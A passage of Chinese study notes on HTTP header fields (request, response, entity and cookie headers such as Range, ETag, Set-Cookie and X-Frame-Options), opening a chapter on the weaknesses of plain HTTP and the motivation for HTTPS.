Proxy-Authorization 的请求，以告知服务器认证所需要的信息。

这个行为是与客户端和服务器之间的 HTTP 访问认证相类似的，不同
之处在于，认证行为发生在客户端与代理之间。客户端与服务器之间
的认证，使用首部字段 Authorization 可起到相同作用。有关 HTTP 访
问认证，后面的章节会作详尽阐述。

**Range**

Range: bytes=5001-10000

对于只需获取部分资源的范围请求，包含首部字段 Range 即可告知服
务器资源的指定范围。上面的示例表示请求获取从第 5001 字节至第
10000 字节的资源。

接收到附带 Range 首部字段请求的服务器，会在处理请求之后返回状
态码为 206 Partial Content 的响应。无法处理该范围请求时，则会返
回状态码 200 OK 的响应及全部资源。

**Referer**



Referer: http://www.hackr.jp/index.htm

首****部字段 Referer 会告知服务器请求的原始资源的 URI。

客户端一般都会发送 Referer 首部字段给服务器。但当直接在浏览器
的地址栏输入 URI，或出于安全性的考虑时，也可以不发送该首部字
段。

因为原始资源的 URI 中的查询字符串可能含有 ID 和密码等保密信
息，要是写进 Referer 转发给其他服务器，则有可能导致保密信息的
泄露。

另外，Referer 的正确的拼写应该是 Referrer，但不知为何，大家一直
沿用这个错误的拼写。

**TE**

TE: gzip, deflate;q=0.5

首部字段 TE 会告知服务器客户端能够处理响应的传输编码方式及相
对优先级。它和首部字段 Accept-Encoding 的功能很相像，但是用于
传输编码。

首部字段 TE 除指定传输编码之外，还可以指定伴随 trailer 字段的分
块传输编码的方式。应用后者时，只需把 trailers 赋值给该字段值。

TE: trailers

**User-Agent**



图：User-Agent 用于传达浏览器的种类

User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; rv:13.0) Gecko

首部字段 User-Agent 会将创建请求的浏览器和用户代理名称等信息传
达给服务器。

由网络爬虫发起请求时，有可能会在字段内添加爬虫作者的电子邮件
地址。此外，如果请求经过代理，那么中间也很可能被添加上代理服
务器的名称。

### 5. 响应首部字段

响应首部字段是由服务器端向客户端返回响应报文中所使用的字段，
用于补充响应的附加信息、服务器信息，以及对客户端的附加要求等
信息。

图：HTTP 响应报文中使用的首部字段

**Accept-Ranges**


图：当不能处理范围请求时，Accept-Ranges: none

Accept-Ranges: bytes

首部字段 Accept-Ranges 是用来告知客户端服务器是否能处理范围请
求，以指定获取服务器端某个部分的资源。

可指定的字段值有两种，可处理范围请求时指定其为bytes，反之则
指定其为none。

**Age**



首部字段 Age 能告知客户端，源服务器在多久前创建了响应。字段值
的单位为秒。

若创建该响应的服务器是缓存服务器，Age 值是指缓存后的响应再次
发起认证到认证完成的时间值。代理创建响应时必须加上首部字段
Age。

**ETag**



首部字段 ETag 能告知客户端实体标识。它是一种可将资源以字符串
形式做唯一性标识的方式。服务器会为每份资源分配对应的 ETag
值。



另外，当资源更新时，ETag 值也需要更新。生成 ETag 值时，并没有
统一的算法规则，而仅仅是由服务器来分配。

资源被缓存时，就会被分配唯一性标识。例如，当使用中文版的浏览
器访问 http://www.google.com/ 时，就会返回中文版对应的资源，而
使用英文版的浏览器访问时，则会返回英文版对应的资源。两者的
URI 是相同的，所以仅凭 URI 指定缓存的资源是相当困难的。若在下
载过程中出现连接中断、再连接的情况，都会依照 ETag 值来指定资
源。

强 ETag 值和弱 Tag 值

ETag 中有强 ETag 值和弱 ETag 值之分。

强 ETag 值

强 ETag 值，不论实体发生多么细微的变化都会改变其值。

ETag: "usagi-1234"

弱 ETag 值

弱 ETag 值只用于提示资源是否相同。只有资源发生了根本改变，产
生差异时才会改变 ETag 值。这时，会在字段值最开始处附加 W/。

ETag: W/"usagi-1234"

**Location**

使用首部字段 Location 可以将响应接收方引导至某个与请求 URI 位置
不同的资源。

基本上，该字段会配合 3xx ：Redirection 的响应，提供重定向的
URI。

几乎所有的浏览器在接收到包含首部字段 Location 的响应后，都会强
制性地尝试对已提示的重定向资源的访问。

**Proxy-Authenticate**

Proxy-Authenticate: Basic realm="Usagidesign Auth"

首部字段 Proxy-Authenticate 会把由代理服务器所要求的认证信息发送
给客户端。

它与客户端和服务器之间的 HTTP 访问认证的行为相似，不同之处在
于其认证行为是在客户端与代理之间进行的。而客户端与服务器之间
进行认证时，首部字段 WWW-Authorization 有着相同的作用。有关
HTTP 访问认证，后面的章节会再进行详尽阐述。

**Retry-After**



首部字段 Retry-After 告知客户端应该在多久之后再次发送请求。主要
配合状态码 503 Service Unavailable 响应，或 3xx Redirect 响应一起使
用。

字段值可以指定为具体的日期时间（Wed, 04 Jul 2012 06：34：24
GMT 等格式），也可以是创建响应后的秒数。

**Server**

Server: Apache/2.2.17 (Unix)

首部字段 Server 告知客户端当前服务器上安装的 HTTP 服务器应用程
序的信息。不单单会标出服务器上的软件应用名称，还有可能包括版
本号和安装时启用的可选项。

Server: Apache/2.2.6 (Unix) PHP/5.2.5

**Vary**



图：当代理服务器接收到带有 Vary 首部字段指定获取资源的请求
时，如果使用的 Accept-Language 字段的值相同，那么就直接从缓
存返回响应。反之，则需要先从源服务器端获取资源后才能作为
响应返回

首部字段 Vary 可对缓存进行控制。源服务器会向代理服务器传达关
于本地缓存使用方法的命令。

从代理服务器接收到源服务器返回包含 Vary 指定项的响应之后，若
再要进行缓存，仅对请求中含有相同 Vary 指定首部字段的请求返回
缓存。即使对相同资源发起请求，但由于 Vary 指定的首部字段不相
同，因此必须要从源服务器重新获取资源。

**WWW-Authenticate**

WWW-Authenticate: Basic realm="Usagidesign Auth"

首部字段 WWW-Authenticate 用于 HTTP 访问认证。它会告知客户端
适用于访问请求 URI 所指定资源的认证方案（Basic 或是 Digest）和
带参数提示的质询（challenge）。状态码 401 Unauthorized 响应中，
肯定带有首部字段 WWW-Authenticate。

上述示例中，realm 字段的字符串是为了辨别请求 URI 指定资源所受
到的保护策略。有关该首部，请参阅本章之后的内容。

### 6. 实体首部字段

实体首部字段是包含在请求报文和响应报文中的实体部分所使用的首
部，用于补充内容的更新时间等与实体相关的信息。


图：在请求和响应两方的 HTTP 报文中都含有与实体相关的首部

**Allow**

Allow: GET, HEAD

首部字段 Allow 用于通知客户端能够支持 Request-URI 指定资源的所
有 HTTP 方法。当服务器接收到不支持的 HTTP 方法时，会以状态码
405 Method Not Allowed 作为响应返回。与此同时，还会把所有能支
持的 HTTP 方法写入首部字段 Allow 后返回。

**Content-Encoding**

Content-Encoding: gzip

首部字段 Content-Encoding 会告知客户端服务器对实体的主体部分选
用的内容编码方式。内容编码是指在不丢失实体信息的前提下所进行
的压缩。

主要采用以下 4 种内容编码的方式。（各方式的说明请参考 6.4.3 节
Accept-Encoding 首部字段）。

- gzip
- compress
- deflate
- identity

**Content-Language**

Content-Language: zh-CN

首部字段 Content-Language 会告知客户端，实体主体使用的自然语言
（指中文或英文等语言）。

**Content-Length**

Content-Length: 15000

首部字段 Content-Length 表明了实体主体部分的大小（单位是字
节）。对实体主体进行内容编码传输时，不能再使用 Content-Length
首部字段。由于实体主体大小的计算方法略微复杂，所以在此不再展
开。读者若想一探究竟，可参考 RFC2616 的 4.4。

**Content-Location**

Content-Location: http://www.hackr.jp/index-ja.html

首部字段 Content-Location 给出与报文主体部分相对应的 URI。和首
部字段 Location 不同，Content-Location 表示的是报文主体返回资源对
应的 URI。

比如，对于使用首部字段 Accept-Language 的服务器驱动型请求，当
返回的页面内容与实际请求的对象不同时，首部字段 Content-Location
内会写明 URI。（访问 http://www.hackr.jp/ 返回的对象却是
http://www.hackr.jp/index-ja.html 等类似情况）

**Content-MD5**



图：客户端会对接收的报文主体执行相同的 MD5 算法，然后与首
部字段 Content-MD5 的字段值比较

Content-MD5: OGFkZDUwNGVhNGY3N2MxMDIwZmQ4NTBmY2IyTY==

首部字段 Content-MD5 是一串由 MD5 算法生成的值，其目的在于检
查报文主体在传输过程中是否保持完整，以及确认传输到达。

对报文主体执行 MD5 算法获得的 128 位二进制数，再通过 Base64 编
码后将结果写入 Content-MD5 字段值。由于 HTTP 首部无法记录二进
制值，所以要通过 Base64 编码处理。为确保报文的有效性，作为接
收方的客户端会对报文主体再执行一次相同的 MD5 算法。计算出的
值与字段值作比较后，即可判断出报文主体的准确性。

采用这种方法，对内容上的偶发性改变是无从查证的，也无法检测出
恶意篡改。其中一个原因在于，内容如果能够被篡改，那么同时意味
着 Content-MD5 也可重新计算然后被篡改。所以处在接收阶段的客户
端是无法意识到报文主体以及首部字段 Content-MD5 是已经被篡改过
的。

**Content-Range**



Content-Range: bytes 5001-10000/10000

针对范围请求，返回响应时使用的首部字段 Content-Range，能告知客
户端作为响应返回的实体的哪个部分符合范围请求。字段值以字节为
单位，表示当前发送部分及整个实体大小。

**Content-Type**

Content-Type: text/html; charset=UTF-8

首部字段 Content-Type 说明了实体主体内对象的媒体类型。和首部字
段 Accept 一样，字段值用 type/subtype 形式赋值。

参数 charset 使用 iso-8859-1 或 euc-jp 等字符集进行赋值。

**Expires**


首部字段 Expires 会将资源失效的日期告知客户端。缓存服务器在接
收到含有首部字段 Expires 的响应后，会以缓存来应答请求，在
Expires 字段值指定的时间之前，响应的副本会一直被保存。当超过
指定的时间后，缓存服务器在请求发送过来时，会转向源服务器请求
资源。

源服务器不希望缓存服务器对资源缓存时，最好在 Expires 字段内写
入与首部字段 Date 相同的时间值。

但是，当首部字段 Cache-Control 有指定 max-age 指令时，比起首部字
段 Expires，会优先处理 max-age 指令。

**Last-Modified**

Last-Modified: Wed, 23 May 2012 09:59:55 GMT

首部字段 Last-Modified 指明资源最终修改的时间。一般来说，这个
值就是 Request-URI 指定资源被修改的时间。但类似使用 CGI 脚本进
行动态数据处理时，该值有可能会变成数据最终修改时的时间。

### 7. 为 Cookie 服务的首部字段

管理服务器与客户端之间状态的 Cookie，虽然没有被编入标准化
HTTP/1.1 的 RFC2616 中，但在 Web 网站方面得到了广泛的应用。

Cookie 的工作机制是用户识别及状态管理。Web 网站为了管理用户的
状态会通过 Web 浏览器，把一些数据临时写入用户的计算机内。接
着当用户访问该Web网站时，可通过通信方式取回之前发放的
Cookie。

调用 Cookie 时，由于可校验 Cookie 的有效期，以及发送方的域、路
径、协议等信息，所以正规发布的 Cookie 内的数据不会因来自其他
Web 站点和攻击者的攻击而泄露。

至 2013 年 5 月，Cookie 的规格标准文档有以下 4 种。

由网景公司颁布的规格标准

网景通信公司设计并开发了 Cookie，并制定相关的规格标准。1994
年前后，Cookie 正式应用在网景浏览器中。目前最为普及的 Cookie
方式也是以此为基准的。

RFC2109
某企业尝试以独立技术对 Cookie 规格进行标准化统筹。原本的意图
是想和网景公司制定的标准交互应用，可惜发生了微妙的差异。现在
该标准已淡出了人们的视线。

RFC2965
为终结 Internet Explorer 浏览器与 Netscape Navigator 的标准差异而导
致的浏览器战争，RFC2965 内定义了新的 HTTP 首部 Set-Cookie2 和
Cookie2。可事实上，它们几乎没怎么投入使用。

RFC6265
将网景公司制定的标准作为业界事实标准（De facto standard），重新
定义 Cookie 标准后的产物。
目前使用最广泛的 Cookie 标准却不是 RFC 中定义的任何一个。而是
在网景公司制定的标准上进行扩展后的产物。
本节接下来就对目前使用最为广泛普及的标准进行说明。



表 6-8：为 Cookie 服务的首部字段

**Set-Cookie**

Set-Cookie: status=enable; expires=Tue, 05 Jul 2011 07:26:31 GMT

当服务器准备开始管理客户端的状态时，会事先告知各种信息。

下面的表格列举了 Set-Cookie 的字段值。


expires 属性

Cookie 的 expires 属性指定浏览器可发送 Cookie 的有效期。
当省略 expires 属性时，其有效期仅限于维持浏览器会话（Session）
时间段内。这通常限于浏览器应用程序被关闭之前。
另外，一旦 Cookie 从服务器端发送至客户端，服务器端就不存在可
以显式删除 Cookie 的方法。但可通过覆盖已过期的 Cookie，实现对
客户端 Cookie 的实质性删除操作。

path 属性

Cookie 的 path 属性可用于限制指定 Cookie 的发送范围的文件目录。
不过另有办法可避开这项限制，看来对其作为安全机制的效果不能抱
有期待。

domain 属性

通过 Cookie 的 domain 属性指定的域名可做到与结尾匹配一致。比
如，当指定 example.com 后，除 example.com 以外，www.example.com
或 www2.example.com 等都可以发送 Cookie。
因此，除了针对具体指定的多个域名发送 Cookie 之 外，不指定
domain 属性显得更安全。

secure 属性

Cookie 的 secure 属性用于限制 Web 页面仅在 HTTPS 安全连接时，才
可以发送 Cookie。
发送 Cookie 时，指定 secure 属性的方法如下所示。
Set-Cookie: name=value; secure
以上例子仅当在 https://www.example.com/（HTTPS）安全连接的情况
下才会进行 Cookie 的回收。也就是说，即使域名相同，
http://www.example.com/（HTTP）也不会发生 Cookie 回收行为。
当省略 secure 属性时，不论 HTTP 还是 HTTPS，都会对 Cookie 进行
回收。

**HttpOnly 属性**

Cookie 的 HttpOnly 属性是 Cookie 的扩展功能，它使 JavaScript 脚本
无法获得 Cookie。其主要目的为防止跨站脚本攻击（Cross-site
scripting，XSS）对 Cookie 的信息窃取。

发送指定 HttpOnly 属性的 Cookie 的方法如下所示。
Set-Cookie: name=value; HttpOnly

通过上述设置，通常从 Web 页面内还可以对 Cookie 进行读取操作。
但使用 JavaScript 的 document.cookie 就无法读取附加 HttpOnly 属性后
的 Cookie 的内容了。因此，也就无法在 XSS 中利用 JavaScript 劫持
Cookie 了。

虽然是独立的扩展功能，但 Internet Explorer 6 SP1 以上版本等当下的
主流浏览器都已经支持该扩展了。另外顺带一提，该扩展并非是为了
防止 XSS 而开发的。

**Cookie**

Cookie: status=enable

首部字段 Cookie 会告知服务器，当客户端想获得 HTTP 状态管理支
持时，就会在请求中包含从服务器接收到的 Cookie。接收到多个
Cookie 时，同样可以以多个 Cookie 形式发送。

### 8. 其他首部字段

HTTP 首部字段是可以自行扩展的。所以在 Web 服务器和浏览器的应
用上，会出现各种非标准的首部字段。

接下来，我们就一些最为常用的首部字段进行说明。

- X-Frame-Options
- X-XSS-Protection
- DNT
- P3P

**X-Frame-Options**

X-Frame-Options: DENY

首部字段 X-Frame-Options 属于 HTTP 响应首部，用于控制网站内容
在其他 Web 网站的 Frame 标签内的显示问题。其主要目的是为了防
止点击劫持（clickjacking）攻击。

首部字段 X-Frame-Options 有以下两个可指定的字段值。
- DENY ：拒绝
- SAMEORIGIN ：仅同源域名下的页面（Top-level-browsingcontext）
  匹配时许可。（比如，当指定 http://hackr.jp/sample.html
  页面为 SAMEORIGIN 时，那么 hackr.jp 上所有页面的 frame 都被
  允许可加载该页面，而 example.com 等其他域名的页面就不行
  了）

支持该首部字段的浏览器有：Internet Explorer 8、Firefox 3.6.9+、
Chrome 4.1.249.1042+、Safari 4+ 和 Opera 10.50+ 等。现在主流的浏览
器都已经支持。

能在所有的 Web 服务器端预先设定好 X-Frame-Options 字段值是最理
想的状态。

对 apache2.conf 的配置实例

<IfModule mod_headers.c>
Header append X-FRAME-OPTIONS "SAMEORIGIN"
</IfModule>

**X-XSS-Protection**

X-XSS-Protection: 1

首部字段 X-XSS-Protection 属于 HTTP 响应首部，它是针对跨站脚本
攻击（XSS）的一种对策，用于控制浏览器 XSS 防护机制的开关。

首部字段 X-XSS-Protection 可指定的字段值如下。

- 0 ：将 XSS 过滤设置成无效状态
- 1 ：将 XSS 过滤设置成有效状态

**DNT**

DNT: 1

首部字段 DNT 属于 HTTP 请求首部，其中 DNT 是 Do Not Track 的简
称，意为拒绝个人信息被收集，是表示拒绝被精准广告追踪的一种方
法。

首部字段 DNT 可指定的字段值如下。

- 0 ：同意被追踪
- 1 ：拒绝被追踪

由于首部字段 DNT 的功能具备有效性，所以 Web 服务器需要对 DNT
做对应的支持

**P3P**

P3P: CP="CAO DSP LAW CURa ADMa DEVa TAIa PSAa PSDa IVAa IVDa

首部字段 P3P 属于 HTTP 相应首部，通过利用 P3P（The Platform for
Privacy Preferences，在线隐私偏好平台）技术，可以让 Web 网站上
的个人隐私变成一种仅供程序可理解的形式，以达到保护用户隐私的
目的。

>协议中对 X- 前缀的废除
 在 HTTP 等多种协议中，通过给非标准参数加上前缀 X-，来区别
 于标准参数，并使那些非标准的参数作为扩展变成可能。但是这种
 简单粗暴的做法有百害而无一益，因此在“RFC 6648 - Deprecating
 the "X-" Prefix and Similar Constructs in Application Protocols”中提议
 停止该做法。
 然而，对已经在使用中的 X- 前缀来说，不应该要求其变更。

## 七、确保Web安全的HTTPS

在 HTTP 协议中有可能存在信息窃听或身份伪装等安全问题。使用
HTTPS 通信机制可以有效地防止这些问题。本章我们就了解一下
HTTPS。

### 1. HTTP的缺点

到现在为止，我们已了解到 HTTP 具有相当优秀和方便的一面，然而
HTTP 并非只有好的一面，事物皆具两面性，它也是有不足之处的。

HTTP 主要有这些不足，例举如下。

- 通信使用明文（不加密），内容可能会被窃听
- 不验证通信方的身份，因此有可能遭遇伪装
- 无法证明报文的完整性，所以有可能已遭篡改

这些问题不仅在 HTTP 上出现，其他未加密的协议中也会存在这类问
题。

除此之外，HTTP 本身还有很多缺点。而且，还有像某些特定的 Web
服务器和特定的 Web 浏览器在实际应用中存在的不足（也可以说成
是脆弱性或安全漏洞），另外，用 Java 和 PHP 等编程语言开发的
Web 应用也可能存在安全漏洞。

**通信使用明文可能会被窃听**

由于 HTTP 本身不具备加密的功能，所以也无法做到对通信整体（使
用 HTTP 协议通信的请求和响应的内容）进行加密。即，HTTP 报文
使用明文（指未经过加密的报文）方式发送。

- TCP/IP 是可能被窃听的网络  
如果要问为什么通信时不加密是一个缺点，这是因为，按
TCP/IP 协议族的工作机制，通信内容在所有的通信线路上都有
可能遭到窥视。

所谓互联网，是由能连通到全世界的网络组成的。无论世界哪个
角落的服务器在和客户端通信时，在此通信线路上的某些网络设
备、光缆、计算机等都不可能是个人的私有物，所以不排除某个
环节中会遭到恶意窥视行为。

即使已经过加密处理的通信，也会被窥视到通信内容，这点和未
加密的通信是相同的。只是说如果通信经过加密，就有可能让人
无法破解报文信息的含义，但加密处理后的报文信息本身还是会
被看到的。


图：互联网上的任何角落都存在通信内容被窃听的风险

窃听相同段上的通信并非难事。只需要收集在互联网上流动的数
据包（帧）就行了。对于收集来的数据包的解析工作，可交给那
些抓包（Packet Capture）或嗅探器（Sniffer）工具。

下面的图片示例就是被广泛使用的抓包工具 Wireshark。它可以
获取 HTTP 协议的请求和响应的内容，并对其进行解析。

像使用 GET 方法发送请求、响应返回了 200 OK，查看 HTTP 响
应报文的全部内容等一系列的事情都可以做到。

- 加密处理防止被窃听  
在目前大家正在研究的如何防止窃听保护信息的几种对策中，最
为普及的就是加密技术。加密的对象可以有这么几个。
  - 通信的加密  
    一种方式就是将通信加密。HTTP 协议中没有加密机制，但可以
    通过和 SSL（Secure Socket Layer，安全套接层）或
    TLS（Transport Layer Security，安全层传输协议）的组合使用，
    加密 HTTP 的通信内容。
    用 SSL 建立安全通信线路之后，就可以在这条线路上进行 HTTP
    通信了。与 SSL 组合使用的 HTTP 被称为 HTTPS（HTTP
    Secure，超文本传输安全协议）或 HTTP over SSL。
    
  - 内容的加密  
    还有一种将参与通信的内容本身加密的方式。由于 HTTP 协议中
    没有加密机制，那么就对 HTTP 协议传输的内容本身加密。即把
    HTTP 报文里所含的内容进行加密处理。
    在这种情况下，客户端需要对 HTTP 报文进行加密处理后再发送
    请求。
    
    诚然，为了做到有效的内容加密，前提是要求客户端和服务器同
    时具备加密和解密机制。主要应用在 Web 服务中。有一点必须
    引起注意，由于该方式不同于 SSL 或 TLS 将整个通信线路加密
    处理，所以内容仍有被篡改的风险。稍后我们会加以说明。

**不验证通信方的身份就可能遭遇伪装**

HTTP 协议中的请求和响应不会对通信方进行确认。也就是说存在“服
务器是否就是发送请求中 URI 真正指定的主机，返回的响应是否真的
返回到实际提出请求的客户端”等类似问题。

- 任何人都可发起请求  
  在 HTTP 协议通信时，由于不存在确认通信方的处理步骤，任何
  人都可以发起请求。另外，服务器只要接收到请求，不管对方是
  谁都会返回一个响应（但也仅限于发送端的 IP 地址和端口号没
  有被 Web 服务器设定限制访问的前提下）。
  HTTP 协议的实现本身非常简单，不论是谁发送过来的请求都会
  返回响应，因此不确认通信方，会存在以下各种隐患。
  - 无法确定请求发送至目标的 Web 服务器是否是按真实意
    图返回响应的那台服务器。有可能是已伪装的 Web 服务
    器。
  - 无法确定响应返回到的客户端是否是按真实意图接收响
    应的那个客户端。有可能是已伪装的客户端。
  - 无法确定正在通信的对方是否具备访问权限。因为某些
    Web 服务器上保存着重要的信息，只想发给特定用户通
    信的权限。
  - 无法判定请求是来自何方、出自谁手
  - 即使是无意义的请求也会照单全收。无法阻止海量请求
    下的 DoS 攻击（Denial of Service，拒绝服务攻击）

- 查明对手的证书  
虽然使用 HTTP 协议无法确定通信方，但如果使用 SSL 则可以。
SSL 不仅提供加密处理，而且还使用了一种被称为证书的手段，
可用于确定方。

证书由值得信任的第三方机构颁发，用以证明服务器和客户端是
实际存在的。另外，伪造证书从技术角度来说是异常困难的一件
事。所以只要能够确认通信方（服务器或客户端）持有的证书，
即可判断通信方的真实意图。

通过使用证书，以证明通信方就是意料中的服务器。这对使用者
个人来讲，也减少了个人信息泄露的危险性。

另外，客户端持有证书即可完成个人身份的确认，也可用于对
Web 网站的认证环节。

**无法证明报文完整性，可能已遭篡改**

所谓完整性是指信息的准确度。若无法证明其完整性，通常也就意味
着无法判断信息是否准确。

- 接收到的内容可能有误  
  由于 HTTP 协议无法证明通信的报文完整性，因此，在请求或响
  应送出之后直到对方接收之前的这段时间内，即使请求或响应的
  内容遭到篡改，也没有办法获悉。
  换句话说，没有任何办法确认，发出的请求 / 响应和接收到的请
  求 / 响应是前后相同的。
  
  比如，从某个 Web 网站上下载内容，是无法确定客户端下载的
  文件和服务器上存放的文件是否前后一致的。文件内容在传输途
  中可能已经被篡改为其他的内容。即使内容真的已改变，作为接
  收方的客户端也是觉察不到的。
  像这样，请求或响应在传输途中，遭攻击者拦截并篡改内容的攻
  击称为中间人攻击（Man-in-the-Middle attack，MITM）。
  

- 如何防止篡改  
  虽然有使用 HTTP 协议确定报文完整性的方法，但事实上并不便
  捷、可靠。其中常用的是 MD5 和 SHA-1 等散列值校验的方法，
  以及用来确认文件的数字签名方法。
  提供文件下载服务的 Web 网站也会提供相应的以 PGP（Pretty
  Good Privacy，完美隐私）创建的数字签名及 MD5 算法生成的散
  列值。PGP 是用来证明创建文件的数字签名，MD5 是由单向函
  数生成的散列值。不论使用哪一种方法，都需要操纵客户端的用
  户本人亲自检查验证下载的文件是否就是原来服务器上的文件。
  浏览器无法自动帮用户检查。
  可惜的是，用这些方法也依然无法百分百保证确认结果正确。因
  为 PGP 和 MD5 本身被改写的话，用户是没有办法意识到的。
  为了有效防止这些弊端，有必要使用 HTTPS。SSL 提供认证和加
  密处理及摘要功能。仅靠 HTTP 确保完整性是非常困难的，因此
  通过和其他协议组合使用来实现这个目标。下节我们介绍
  HTTPS 的相关内容

### 2. HTTP+ 加密 + 认证 + 完整性保护 = HTTPS

**HTTP加上加密处理和认证以及完整性保护后即是HTTPS**

如果在 HTTP 协议通信过程中使用未经加密的明文，比如在 Web 页
面中输入信用卡号，如果这条通信线路遭到窃听，那么信用卡号就暴
露了。

另外，对于 HTTP 来说，服务器也好，客户端也好，都是没有办法确
认通信方的。因为很有可能并不是和原本预想的通信方在实际通信。
并且还需要考虑到接收到的报文在通信途中已经遭到篡改这一可能
性。

为了统一解决上述这些问题，需要在 HTTP 上再加入加密处理和认证
等机制。我们把添加了加密及认证机制的 HTTP 称为 HTTPS（HTTP
Secure）。


经常会在 Web 的登录页面和购物结算界面等使用 HTTPS 通信。使用
